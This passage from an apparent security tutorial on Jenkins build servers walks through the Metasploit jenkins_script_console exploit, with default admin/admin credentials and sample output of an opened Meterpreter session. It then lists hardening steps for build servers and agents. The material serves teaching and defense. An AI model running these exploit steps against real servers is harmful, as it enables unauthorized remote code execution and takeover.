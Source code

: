 To configure the exploit, set the following options:

- **RHOSTS**: Set this to the IP or domain name of your target Jenkins server (e.g., `build-server.example.local`).
- **RPORT**: Set the target port (usually `8080`).
- **USERNAME**: Provide the Jenkins username (e.g., `admin`).
- **PASSWORD**: Provide the corresponding password (e.g., `admin`).

Once these values are set, run the exploit:

```bash
msf6 exploit(multi/http/jenkins_script_console) > set RHOSTS build-server.example.local
msf6 exploit(multi/http/jenkins_script_console) > set RPORT 8080
msf6 exploit(multi/http/jenkins_script_console) > set username admin
msf6 exploit(multi/http/jenkins_script_console) > set password admin
msf6 exploit(multi/http/jenkins_script_console) > run
```

If successful, Metasploit will establish a **Meterpreter session**. You can check the user ID of the Jenkins server:

```bash
[*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.2.50:8080)
meterpreter > getuid
Server username: admin
```

In addition to using Metasploit, you can **manually exploit** the Jenkins script console by running custom Groovy scripts to gain control over the server.

---

### Steps to Secure the Build Server

To protect both your build server and build agents, implement these key security measures:

1. **Agent Configuration**: Ensure that build agents can only communicate with the build server, not with external networks. This minimizes exposure to external threats.

2. **Private Network**: Isolate the build agents in a **private network** that doesn’t allow direct access from the public internet. This reduces potential attack surfaces.

3. **Firewalls**: Use **firewalls** to block unauthorized access to the build server. Allow only traffic related to the build process (e.g., HTTP or SSH) from trusted IPs.

4. **VPN Access**: Set up a **VPN** to securely access the build server and agents from remote locations, ensuring encryption and preventing direct internet access.

5. **Token-Based Authentication**: For agents communicating with the build server, use **token-based authentication**. This adds a layer of protection beyond traditional username/password methods.

6. **SSH Key Authentication**: For build agents that rely on SSH, ensure that **SSH keys** are used instead of passwords. This provides a more secure method of authentication.

7. **Continuous Monitoring**: Continuously **monitor** activities on both the build server and agents. Set up alerts for unusual behaviors, and review logs regularly to identify suspicious activity.

8. **Timely Updates**: Regularly **update** the build server and agent software to patch known vulnerabilities. Staying on top of security patches reduces the risk of exploitation.
